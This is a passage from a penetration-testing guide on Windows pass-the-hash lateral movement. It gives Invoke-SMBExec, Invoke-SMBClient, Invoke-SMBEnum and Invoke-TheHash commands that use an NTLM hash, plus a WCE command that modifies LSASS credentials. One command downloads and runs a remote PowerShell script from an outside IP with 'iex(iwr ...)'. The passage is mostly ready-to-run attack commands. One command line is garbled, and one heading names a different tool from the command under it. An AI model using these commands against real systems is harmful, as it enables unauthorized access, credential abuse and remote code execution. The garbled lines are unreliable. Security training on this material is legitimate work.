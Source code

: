 #### Invoke-WMIExec

```text
Invoke-SMBExec -Target dcorp-mgmt.my.domain.local -Domain my.domain.local -Username username -Hash b38ff50264b74508085d82c69794a4d8 -Command 'powershell -ep bypass -Command "iex(iwr http://172.16.100.114:8080/pc.ps1 -UseBasicParsing)"' -verbose
```

#### Invoke-SMBClient

```text
Invoke-SMBClient -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 [-Action Recurse] -Source \\dcorp-mgmt.my.domain.local\C$\ -verbose
```

#### Invoke-SMBEnum

```text
Invoke-SMBEnum -Domain dollarcorp.moneycorp.local -Username svcadmin -Hash b38ff50264b74508085d82c69794a4d8 -Target dcorp-mgmt.dollarcorp.moneycorp.local -verbose
```

#### Invoke-TheHash

This function is a **mix of all the others**. You can pass **several hosts**, **exclude** someones and **select** the **option** you want to use \(_SMBExec, WMIExec, SMBClient, SMBEnum_\). If you select **any** of **SMBExec** and **WMIExec** but you **don't** give any _**Command**_ parameter it will just **check** if you have **enough permissions**.

```text
Invoke-TheHash -Type WMIExec -Target 192.168.100.0/24 -TargetExclude 192.168.100.50 -Username Administ -ty    h F6F38B793DB6A94BA04A52F1D3EE92F0
```

### [Evil-WinRM Pass the Hash](../../pentesting/5985-5986-pentesting-winrm.md#using-evil-winrm)

### Windows Credentials Editor \(WCE\)

**Needs to be run as administrator**

This tool will do the same thing as mimikatz \(modify LSASS memory\).

```text
wce.exe -s <username>:<domain>:<hash_lm>:<hash_nt>
```

### Manual Windows remote execution with username and password

* \*\*\*\*[**PsExec**](psexec-and-winexec.md)\*\*\*\*
* [**SmbExec**](smbexec.md)\*\*\*\*
* \*\*\*\*[**WmicExec**](wmicexec.md)\*\*\*\*
* \*\*\*\*[**AtExec**](atexec.md)\*\*\*\*

## Extracting credentials from a Windows Host
